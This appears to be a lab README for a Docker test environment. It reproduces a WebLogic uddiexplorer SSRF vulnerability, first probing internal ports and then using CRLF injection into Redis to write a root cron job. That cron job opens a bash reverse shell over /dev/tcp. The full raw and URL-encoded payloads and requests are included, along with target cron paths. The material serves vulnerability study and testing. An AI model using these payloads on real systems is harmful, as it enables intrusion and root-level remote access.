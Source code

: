# Weblogic SSRF Vulnerability

There is an SSRF vulnerability in Weblogic, which can be used to send arbitrary HTTP requests, and then attack vulnerable components such as redis and fastcgi in the internal network.

## Test environment construction

Compile and start the test environment

```
Docker-compose build
Docker-compose up -d
```

Visit `http://your-ip:7001/uddiexplorer/` to view the uddiexplorer app without logging in.

## SSRF Vulnerability Test

The SSRF vulnerability exists in `http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`, and we tested the vulnerability under brupsuite. Access an accessible IP:PORT, such as `http://127.0.0.1:80`:

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

The accessible port will get an error, generally returning the status code (as shown below), if the non-http protocol is accessed, it will return `did not have a valid SOAP content-type`.

![](1.png)

Modifying to a non-existing port will return `could not connect over HTTP to server`.

![](2.png)

By detecting the error, the status of the internal network can be detected.

## Inject HTTP headers and use Redis to bounce shells

Weblogic's SSRF has a relatively large feature. Although it is a "GET" request, we can inject newline characters by passing in `%0a%0d`, and some services (such as redis) are separated by newline characters. Each command, that is, we can attack the redis server in the intranet through the SSRF.

First, through ssrf to detect the redis server in the intranet (the network segment of the docker environment is generally 172.*), it is found that `172.18.0.2:6379` can be connected:

![](3.png)

Send three redis commands to write the shell script to `/etc/crontab`:

```
Set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
Config set dir /etc/
Config set dbfilename crontab
Save
```

Perform url encoding:

```
Test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26 %20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set %20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

Note that the newline is "\r\n", which is "%0D%0A".

Put the url-encoded string behind the ssrf domain name and send:

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.18.0.3:6379/test%0D%0A%0D%0Aset%201%20%22% 5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200 %3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](4.png)

Successful rebound:

![](5.png)


Finally, the cron that can be used has the following places:

 - /etc/crontab This is for sure
 - /etc/cron.d/* Write any file to this directory with the same effect as crontab, and the format should be the same as /etc/crontab. Exploit this directory and you can do it without overwriting any other files.
 - /var/spool/cron/root centos system root user cron file
 - /var/spool/cron/crontabs/root The cron file of the root user under the debian system